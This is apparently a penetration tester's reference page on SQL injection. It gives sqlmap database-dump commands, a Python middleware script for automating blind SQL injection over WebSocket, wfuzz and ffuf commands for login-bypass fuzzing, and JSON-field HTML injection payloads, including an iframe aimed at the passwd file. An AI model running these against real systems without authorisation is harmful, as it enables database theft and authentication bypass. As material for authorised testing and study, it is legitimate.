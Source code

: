 # SQL Injection

<details>

<summary>Table of Content</summary>



</details>

## Cheatsheets

* [pentestmonkey SQL Injection cheatsheet](https://pentestmonkey.net/category/cheat-sheet/sql-injection)

## SQLMaps

SQLMap can be used to detect SQL Injection.

```bash
sqlmap -u "http://<URL>/" --batch --dump --forms
```

### SQLMap Level

* level 1: By default
* level 2: Test HTTP Cookie header
* level 3: Test HTTP User-Agent/Referer headers

### Automating Blind SQL injection over WebSocket with SQLMap

Here is a script that allows blind SQL Injection using SQLMap. It start a middleware server that basically:&#x20;

* Format the payload if needed (for example wrap it in a JSON format)
* Create a WebSocket connection to actual target, receive response and extract any token if needed.
* Send SQLi payload and receive Output from WebSocket.
* Display the output as response

{% code lineNumbers="true" %}
```python
from http.server import SimpleHTTPRequestHandler
from socketserver import TCPServer
from urllib.parse import unquote, urlparse
from websocket import create_connection

ws_server = "ws://localhost:8156/ws"

def send_ws(payload):
	ws = create_connection(ws_server)
	# If the server returns a response on connect, use below line	
	#resp = ws.recv() # If server returns something like a token on connect you can find and extract from here
	
	# For our case, format the payload in JSON
	message = unquote(payload).replace('"','\'') # replacing " with ' to avoid breaking JSON structure
	data = '{"employeeID":"%s"}' % message

	ws.send(data)
	resp = ws.recv()
	ws.close()

	if resp:
		return resp
	else:
		return ''

def middleware_server(host_port,content_type="text/plain"):

	class CustomHandler(SimpleHTTPRequestHandler):
		def do_GET(self) -> None:
			self.send_response(200)
			try:
				payload = urlparse(self.path).query.split('=',1)[1]
			except IndexError:
				payload = False
				
			if payload:
				content = send_ws(payload)
			else:
				content = 'No parameters specified!'

			self.send_header("Content-type", content_type)
			self.end_headers()
			self.wfile.write(content.encode())
			return

	class _TCPServer(TCPServer):
		allow_reuse_address = True

	httpd = _TCPServer(host_port, CustomHandler)
	httpd.serve_forever()


print("[+] Starting MiddleWare Server")
print("[+] Send payloads in http://localhost:8081/?id=*")

try:
	middleware_server(('0.0.0.0',8081))
except KeyboardInterrupt:
	pass
```
{% endcode %}

Start the server then run SQLMap with the port set on the script.

```bash
sqlmap -u "http://localhost:8081/?id=1" --batch --dbs
```

> More information at [https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html](https://rayhan0x01.github.io/ctf/2021/04/02/blind-sqli-over-websocket-automation.html)

### SQLmap Cheatsheet

> Hacktricks: [https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

## Login forms

Techniques and tools used to bypass login forms using SQL Injection. The wordlist can be found [here](../../../SQL\_Injection/files/sqli\_login\_form.txt). It is taken from HackTricks.

> **SQL Login Bypass**&#x20;
>
> [Hacktricks ](https://book.hacktricks.xyz/pentesting-web/login-bypass)
>
> [PayloadsAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/SQL%20Injection#authentication-bypass)

> **NoSQL Login Bypass**&#x20;
>
> [Hacktricks](https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass)

**Using wfuzz**

Keyword `FUZZ` is used to determine the parameter that will be used.

```bash
wfuzz -c -z file,sqli.req -d "username=FUZZ&password=pass" -u "http://<IP>/login"
```

Useful options

* `-H`: Used to set custom header
* `--hc/hl/hw/hh`: Hide responses with the specified code/lines/words/chars
* `--sc/sl/sw/sh`: Show responses with the specified code/lines/words/chars
* `-d`: request datas

**Using ffuf**

```bash
ffuf -u http://<URL>/login -c -w sqli.req -X POST -d 'username=adminFUZZ&password=admin' -H 'Content-Type: application/x-www-form-urlencoded'
```

Useful options

* `-H`: Used to set custom header
* `-d`: request datas

**Using SQLmap**

Load a file with `-r` option.

```bash
sqlmap -r sqli.req -u "http://<URL>/login" --data "username=admin&password=pass"
```

### Json injection

1. Replace content-type: `Content-Type: application/json`
2. Send json payload: https://book.hacktricks.xyz/pentesting-web/nosql-injection#basic-authentication-bypass

## Any forms

### Json injection

```bash
"user":"<a href='http\\\\:someurl.com'>ACTIVATE USER HERE</a>"
"user":"<img src=https\\://dummyimage.com/200x200/ff00d5&text=HAHAHA/>"
"title":"<iframe src=file:///ect/passwd height=800px width=600px></iframe>"
```

> **JSON Injection:** [https://lisandre.com/archives/2286](https://lisandre.com/archives/2286)

